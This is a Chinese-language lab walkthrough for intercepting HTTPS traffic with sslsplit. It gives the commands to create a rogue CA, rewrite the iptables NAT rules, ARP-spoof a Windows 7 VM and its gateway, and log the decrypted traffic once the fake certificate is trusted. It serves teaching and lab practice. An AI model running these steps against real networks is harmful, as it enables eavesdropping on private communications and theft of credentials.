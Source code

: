 ```
openssl genrsa -out certauth.key 4096   生成证书私钥
openssl req -new -x509 -days 1096 -key certauth.key -out ca.crt
```

我们使用工具sslsplit开展中间人攻击，sslsplit使用8080、8443端口，因此需要将中间人的流量重定向到8080、8443端口。

```
echo 1 > /proc/sys/net/ipv4/ip_forwar		开启中间人系统的路由功能
iptables -t nat -L    						查看iptables的nat表中内容
iptables -t nat -L > iptables.nat.bkp.txt	备份nat表
iptables -t nat -F							清空nat表
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --toports
8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --toports
8443										建立PREROUTING重定向规则
```

开展ARP欺骗使Kali机器成为win7虚拟机（192.168.254.128）和网关(192.168.254.2)的中间人。

### 步骤

1. 创建目录用于存放sslsplit日志

```bash
mkdir /sslsplit
mkdir /sslsplit/logdir
```

2. 启动 SSLSplit:

```
sslsplit -D -l connections.log -j sslsplit/ -S sslsplit/logdir/ -k certauth.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

3. 将生成的证书ca.crt拷贝到win7虚拟机，安装到受信任根证书颁发机构
4. 在win7虚拟机中打开百度，并搜索hello，可以在sslsplit/logdir/中看到双方传输的信息，还有大量不可见数据包，主要是图片。
